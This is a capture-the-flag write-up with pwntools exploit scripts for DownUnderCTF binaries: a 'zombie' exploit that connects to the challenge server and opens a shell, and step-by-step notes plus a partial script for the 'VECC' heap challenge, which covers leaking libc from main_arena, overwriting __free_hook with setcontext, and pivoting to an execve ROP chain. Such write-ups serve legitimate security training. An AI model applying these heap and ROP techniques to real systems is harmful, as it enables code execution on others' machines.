 ```python
####Zombie injection
_O_O_ = 'get flag'

####Zombie killer
if __name__ == '__main__':
#	io = process('./zombie')
	io = remote('chal.duc.tf',30008)

	infect(0x48)
	dick(p_o,'B'*0x47)
	dick(p_o,'eat brains'.ljust(0x47,O_o))

	for i in range(len(_O_O_)):
		io.sendlineafter('victim.\n',str(i))
		io.sendlineafter('Munch!\n',str(ord(_O_O_[i])))

	io.sendlineafter('victim.\n','8')
	io.sendlineafter('Munch!\n',str(ord(O_o)))
	io.sendlineafter('victim.\n','9')
	io.sendlineafter('Munch!\n',str(ord(O_o)))

	io.sendlineafter('victim.\n',oOOo)
	io.interactive()
```

## VECC

1. A heap exp challenge without giving libc.
2. Should we guess what glibc is running remote. :(
3. Yes we should.
4. Get unsortedbin.
5. Uninitialized memory after freeing the chunks.
6. create vecc
7. The first two qwadwords are adddress from Main arena. :P
8. Use showvec to dump all of the main_arena. leak libc. And also it leaks environment variables. THis is how i got to know the libc version.
9. Clear vec will set the size field to 0.
10. Append vec will lead to writing anything we want to main_arena and beyond it.
11. Since we can write beyond it. Prepare ROP chain on main_arena.
12. Set `__free_hook` to setcontext+53 which can be used to control the rsp.
13. It directly frees the variable which it allocated before appending the vec.
14. No output function before freeing the chunk back. So we don't worry about crashing the process.
But whatever
15. stack migration to main_arena. Execve ROP chain get shell.

```python
#!/usr/bin/python3
from pwn import *
from past.builtins import xrange
from time import sleep
import random

###Bin
exe = context.binary = ELF('./vec')
libc = ELF('./libc6_2.27-3ubuntu1_amd64.so')

####Utils
def create(idx):
	io.sendlineafter('> ','1')
	io.sendlineafter('Index?\n',str(idx))

def appendvec(idx,leng,data):
	io.sendlineafter('> ','3')
```